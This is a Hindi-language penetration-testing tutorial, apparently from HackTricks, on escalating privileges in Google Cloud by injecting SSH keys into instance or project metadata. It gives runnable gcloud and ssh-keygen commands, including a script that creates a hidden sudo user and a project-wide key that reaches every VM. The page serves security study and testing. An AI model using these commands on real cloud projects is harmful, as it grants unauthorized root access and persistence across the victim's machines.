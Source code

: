 # GCP - Add Custom SSH Metadata

{{#include ../../../../banners/hacktricks-training.md}}

## Metadata को संशोधित करना <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

एक इंस्टेंस पर मेटाडेटा का संशोधन **महत्वपूर्ण सुरक्षा जोखिमों** का कारण बन सकता है यदि एक हमलावर आवश्यक अनुमतियाँ प्राप्त कर लेता है।

### **कस्टम मेटाडेटा में SSH कुंजियों का समावेश**

GCP पर, **Linux सिस्टम** अक्सर [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) से स्क्रिप्ट चलाते हैं। इसका एक महत्वपूर्ण घटक [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) है, जिसे **नियमित रूप से** इंस्टेंस मेटाडेटा एंडपॉइंट की **अधिकृत SSH सार्वजनिक कुंजियों** के लिए **अपडेट** की जांच करने के लिए डिज़ाइन किया गया है।

इसलिए, यदि एक हमलावर कस्टम मेटाडेटा को संशोधित कर सकता है, तो वह डेमन को एक नई सार्वजनिक कुंजी खोजने के लिए मजबूर कर सकता है, जिसे संसाधित किया जाएगा और **स्थानीय सिस्टम में एकीकृत किया जाएगा**। कुंजी को एक **मौजूदा उपयोगकर्ता के `~/.ssh/authorized_keys` फ़ाइल** में जोड़ा जाएगा या `sudo` अनुमतियों के साथ एक नए उपयोगकर्ता को संभावित रूप से बनाया जाएगा, कुंजी के प्रारूप के आधार पर। और हमलावर होस्ट को समझौता करने में सक्षम होगा।

### **मौजूदा विशेषाधिकार प्राप्त उपयोगकर्ता के लिए SSH कुंजी जोड़ें**

1. **इंस्टेंस पर मौजूदा SSH कुंजियों की जांच करें:**

- मौजूदा SSH कुंजियों को खोजने के लिए इंस्टेंस और इसके मेटाडेटा का वर्णन करने के लिए कमांड निष्पादित करें। आउटपुट में प्रासंगिक अनुभाग `metadata` के तहत होगा, विशेष रूप से `ssh-keys` कुंजी के तहत।

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- SSH कुंजियों के प्रारूप पर ध्यान दें: उपयोगकर्ता नाम कुंजी से पहले आता है, जो एक कोलन द्वारा अलग किया जाता है।

2. **SSH कुंजी मेटाडेटा के लिए एक टेक्स्ट फ़ाइल तैयार करें:**
- उपयोगकर्ता नाम और उनकी संबंधित SSH कुंजियों के विवरण को `meta.txt` नामक टेक्स्ट फ़ाइल में सहेजें। यह नए कुंजियों को जोड़ते समय मौजूदा कुंजियों को बनाए रखने के लिए आवश्यक है।
3. **लक्षित उपयोगकर्ता के लिए एक नई SSH कुंजी उत्पन्न करें (`alice` इस उदाहरण में):**

- `ssh-keygen` कमांड का उपयोग करके एक नई SSH कुंजी उत्पन्न करें, यह सुनिश्चित करते हुए कि टिप्पणी फ़ील्ड (`-C`) लक्षित उपयोगकर्ता नाम से मेल खाता है।

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- नई सार्वजनिक कुंजी को `meta.txt` में जोड़ें, इंस्टेंस के मेटाडेटा में पाए गए प्रारूप की नकल करते हुए।

4. **इंस्टेंस की SSH कुंजी मेटाडेटा को अपडेट करें:**

- `gcloud compute instances add-metadata` कमांड का उपयोग करके इंस्टेंस पर अपडेट की गई SSH कुंजी मेटाडेटा लागू करें।

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **नई SSH कुंजी का उपयोग करके इंस्टेंस तक पहुँचें:**

- लक्षित उपयोगकर्ता (`alice` इस उदाहरण में) के संदर्भ में शेल तक पहुँचने के लिए नई कुंजी का उपयोग करके SSH के साथ इंस्टेंस से कनेक्ट करें।

```bash
ssh -i ./key alice@localhost
sudo id
```

### **एक नया विशेषाधिकार प्राप्त उपयोगकर्ता बनाएं और SSH कुंजी जोड़ें**

यदि कोई दिलचस्प उपयोगकर्ता नहीं मिलता है, तो एक नया उपयोगकर्ता बनाया जा सकता है जिसे `sudo` अनुमतियाँ दी जाएंगी:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

SSH एक्सेस के दायरे को क्लाउड वातावरण में कई वर्चुअल मशीनों (VMs) तक बढ़ाना संभव है **प्रोजेक्ट स्तर पर SSH कुंजी लागू करके**। यह दृष्टिकोण प्रोजेक्ट के भीतर किसी भी इंस्टेंस को SSH एक्सेस की अनुमति देता है जिसने स्पष्ट रूप से प्रोजेक्ट-व्यापी SSH कुंजी को ब्लॉक नहीं किया है। यहाँ एक संक्षिप्त मार्गदर्शिका है:

1. **प्रोजेक्ट स्तर पर SSH कुंजी लागू करें:**

- `gcloud compute project-info add-metadata` कमांड का उपयोग करके `meta.txt` से SSH कुंजी को प्रोजेक्ट के मेटाडेटा में जोड़ें। यह क्रिया सुनिश्चित करती है कि SSH कुंजी प्रोजेक्ट में सभी VMs के बीच मान्यता प्राप्त हैं, जब तक कि किसी VM में "Block project-wide SSH keys" विकल्प सक्षम नहीं है।

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **प्रोजेक्ट-व्यापी कुंजी का उपयोग करके इंस्टेंस में SSH करें:**
- प्रोजेक्ट-व्यापी SSH कुंजी के साथ, आप प्रोजेक्ट के भीतर किसी भी इंस्टेंस में SSH कर सकते हैं। जो इंस्टेंस प्रोजेक्ट-व्यापी कुंजी को ब्लॉक नहीं करते हैं, वे SSH कुंजी को स्वीकार करेंगे, जिससे एक्सेस मिलेगा।
- किसी इंस्टेंस में SSH करने का एक सीधा तरीका `gcloud compute ssh [INSTANCE]` कमांड का उपयोग करना है। यह कमांड आपके वर्तमान उपयोगकर्ता नाम और प्रोजेक्ट स्तर पर सेट की गई SSH कुंजी का उपयोग करके एक्सेस करने का प्रयास करता है।

## References

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}

